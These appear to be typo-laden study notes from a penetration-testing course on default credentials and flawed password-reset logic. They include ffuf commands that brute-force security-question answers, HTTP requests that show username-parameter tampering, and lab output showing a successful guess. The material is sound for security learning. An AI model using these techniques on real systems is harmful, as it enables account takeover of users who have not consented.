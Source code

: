 # Default credentials:
Many We app are set up def credentials to allow accessingf after installation, these credentials need to be changed after installation.
Change after the initial setup of the we app, they provide an ez way to for attackers to obtain authenticated access.
Testing for def credentials is a essential part of auth testing  OWASP's Web App Security Testing Guide.
Common default credentials include [admin and password].

- Testing Default Credentials:
Many plataforms provide listis of def credentials for a wide variaty of web app, IS the web database maintained by [CIRT.net](https://www.cirt.net/passwords). if we identified a Cisco device during a penetration test, we can search the db for def credentials for cisco device.
Futher resources include Sellist Def credentials as well as the [SCADA](https://github.com/scadastrangelove/SCADAPASS/tree/master) respository wich contain a list of def pass for variaty diff vendors.

## Vulnerable Password reset:
- Guesseable Password Reset Questions:
Web app aith user who have lost their pass by requesting that they answer ne or multiple security questions, Users provide answares to predefine and generic security questions, disallowing users for entering customs ones.
The same web app, the security of all users wull be the same, allowing attakers to abuste them.

Assuming we had  found such funcionality on a target website, we should try abusing it to bypass aithentication, the weak link in a question-based pass reset funcionality us the predictability of the answars. It's common to find questions
like he following:
- What is ir mother maiden name?
- What city werw u born in?

We can attempt to brute-forvvce teh answare to this questions by using a proper wordlist, there are multiple containing large cities in the world. This [CSV](https://github.com/datasets/world-cities/blob/main/data/world-cities.csv) file
cotains a list of mor than 25000 cities with more then 15000 inhabitants from all over the world.
SInce the CSV fiel contains he city name in the first field, we can create our wordlist containing only the city name on the each line using the following command:
```sh
cat wordl-cities.csv | cut -d ',' -f1 > city_wordlist.txt
wc -l city_wordlist.txt

```
We will target the user admin, after specifying the userneme, we must answare the user's security questions. The corresponding requests looks...
We can set up the corresponding ffuf command form this request to brute-force the answare, keep in mind that we need to specify our session cookie
to associate our request witht the username admin we specify in prev step.

`ffuf -w ./city_wordlist -u [ip] -X POST -H "Content-Type: application/x-www-form-urlencoded" -b "PHPSESSID=39b54j201u3rhu4tab1pvdb4pv" -d "security_response=FUZZ" -fr "Incorrect response."`

We could narrow down the cities if we had additional information on our target to reduce time requeired for our brute-force attack on the security questions, if we knew that our target user was form Germany, we could create a wordlist
containig only german cities with this commands:
`cat world-cities.csv | grep Germany | cut -d ',' -f1 > german_cities.txt `

- Manipulatiing the Reset Request:
Another instance of a flawed pass reset logic occurs when a user can manipulate a potentially hidden parameter to reset the pass of a diff acc.
Ww will use our demo account htb-stdnt, which results in the following requests:
```js
POST /reset.php HTTP/1.1
Host: pwreset.htb
Content-Length: 18
Content-Type: application/x-www-form-urlencoded
Cookie: PHPSESSID=39b54j201u3rhu4tab1pvdb4pv

username=htb-stdnt
```
Supplying the security response London results in the following request:
```js
POST /security_question.php HTTP/1.1
Host: pwreset.htb
Content-Length: 43
Content-Type: application/x-www-form-urlencoded
Cookie: PHPSESSID=39b54j201u3rhu4tab1pvdb4pv

security_response=London&username=htb-stdnt
```
The final request looks like:
```js
POST /reset_password.php HTTP/1.1
Host: pwreset.htb
Content-Length: 36
Content-Type: application/x-www-form-urlencoded
Cookie: PHPSESSID=39b54j201u3rhu4tab1pvdb4pv

password=P@$$w0rd&username=htb-stdnt
```
Suppose the web app does properly verifu that the username in both request match, we can skip the security question or supply the answare to our security questiona nt then set the pass of an entirely different account.
```sh
ffuf -w city_wordlist.txt -u http://94.237.58.95:43537/security_question.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -b PHPSESSID=fpdk5sheb6cnstlsjc7d37t3s9  -d "security_response=FUZZ" -fr "Incorrect response."

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v2.1.0-dev
________________________________________________

 :: Method           : POST
 :: URL              : http://94.237.58.95:43537/security_question.php
 :: Wordlist         : FUZZ: /home/Anchovy/city_wordlist.txt
 :: Header           : Content-Type: application/x-www-form-urlencoded
 :: Header           : Cookie: PHPSESSID=fpdk5sheb6cnstlsjc7d37t3s9
 :: Data             : security_response=FUZZ
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Regexp: Incorrect response.
________________________________________________

Manchester              [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 43ms]
```

